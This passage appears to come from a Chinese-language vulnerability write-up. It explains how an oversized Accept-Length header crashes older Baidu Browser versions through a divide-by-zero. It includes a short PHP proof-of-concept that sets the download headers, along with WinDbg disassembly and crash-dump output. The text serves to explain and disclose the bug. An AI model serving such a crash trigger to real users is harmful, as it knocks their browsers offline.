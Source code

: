 HTTP 头中，Content-Length 可以反映这个请求的实体大小`[2]`，正是如此，下载的时候，下载器可以拿它当个参考，但是 HTTP 头是我们可以随便定义的，如果我们在服务器上做一个假的下载文件，并且把它的大小指定的非常大，甚至超出硬盘能受得了的大小，或者超出存储下载文件有多大的那个变量的上限会如何呢？

[WooYun: 百度浏览器 5.0 正式版除以零异常永久性拒绝服务](http://www.wooyun.org/bugs/wooyun-2013-037842)

在老版本的百度浏览器中访问此文件：

```
<?php
    header("Content-type: application/octet-stream");    //返回的文件    
    header("Accept-Ranges: bytes");            //按照字节大小返回
    header("Accept-Length: 500");    //返回文件大小
    header("Content-Length: 500");    //返回文件大小
    header("Content-Disposition: attachment; filename=B");//这里客户端的弹出对话框，对应的文件名
?>

```

当将 Accept-Length 该成一个超过其 unsigned long 上限的值时，百度浏览器简单的把其大小修改为了 0。

关键是，这个 0 会在之后被用作计算百分比的分母，于是一个奇葩的现象就会出现：除以 0 错误。

过程就是如此简单：

```
xnet!AcquireAsynHttpService+0x278f2:
5bc5b502 83d800          sbb     eax,0
5bc5b505 8944241c        mov     dword ptr [esp+1Ch],eax
5bc5b509 89542418        mov     dword ptr [esp+18h],edx
5bc5b50d 0bc0            or      eax,eax
5bc5b50f 7518            jne     xnet!AcquireAsynHttpService+0x27919 (5bc5b529)
5bc5b511 8b4c2418        mov     ecx,dword ptr [esp+18h] ;文件大小
5bc5b515 8b442414        mov     eax,dword ptr [esp+14h] ;已经下载的大小
5bc5b519 33d2            xor     edx,edx
xnet!AcquireAsynHttpService+0x2790b:
5bc5b51b f7f1            div     eax,ecx  ; 0/0

;部分寄存器此时的值:
;eax=00000000 ebx=00000000 ecx=00000000 edx=00000000

5bc5b51d 8bd8            mov     ebx,eax
5bc5b51f 8b442410        mov     eax,dword ptr [esp+10h]
5bc5b523 f7f1            div     eax,ecx
…… 
```

5.x 版本的浏览器的 dmp 简单查看一下：

```
0:033> !analyze -v
FAULTING_IP: 
xnet!AcquireAsynHttpService+2790b
5bc5b51b f7f1            div     eax,ecx

……（略）
DEFAULT_BUCKET_ID:  STATUS_INTEGER_DIVIDE_BY_ZERO
PRIMARY_PROBLEM_CLASS:  STATUS_INTEGER_DIVIDE_BY_ZERO
BUGCHECK_STR:  APPLICATION_FAULT_STATUS_INTEGER_DIVIDE_BY_ZERO
LAST_CONTROL_TRANSFER:  from 5bc25b4e to 5bc5b51b
STACK_TEXT:  
0a67f95c 5bc25b4e 03684b20 666e1dbf 0383c019 xnet!AcquireAsynHttpService+0x2790b
0a67f984 5bc24817 00000000 00000000 03707e68 xnet+0x25b4e
0a67f9ac 5bc21581 00000000 666e1dbf 00000000 xnet+0x24817
……（略） 
```
